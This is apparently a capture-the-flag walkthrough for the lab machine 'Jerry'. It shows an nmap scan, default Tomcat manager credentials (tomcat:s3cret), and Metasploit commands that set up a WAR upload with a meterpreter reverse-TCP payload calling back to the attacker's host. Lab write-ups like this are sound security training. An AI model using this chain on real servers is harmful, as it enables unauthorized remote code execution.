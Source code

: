 ![jerry]()

## Enumeration

Start with an nmap scan:

\
```
nmap -A 10.10.10.95
```

\
```
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2018-07-26 15:18 EDT
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional
Aggressive OS guesses: Microsoft Windows Server 2012 (90%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 7 Professional (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   102.96 ms 10.10.14.1
2   104.81 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.45 seconds
```

\
Looks like the only port open is 8080, which is running Apache Tomcat 1.1.  Some research pointed me to a [metasploit module](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) for logging into Apache Tomcat using default credentials.  Using this I got the credentials tomcat:s3cret.  Now we can use the [tomcat manager authenticated upload module](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). This module can be used to execute a payload on Apache Tomcat servers that have an exposed “manager” application. The payload is uploaded as a WAR archive containing a JSP application using a POST request against the /manager/html/upload component:

\
```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > check
[*] 10.10.10.95:8080 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > set lhost 10.10.14.232
lhost => 10.10.14.232
```

\



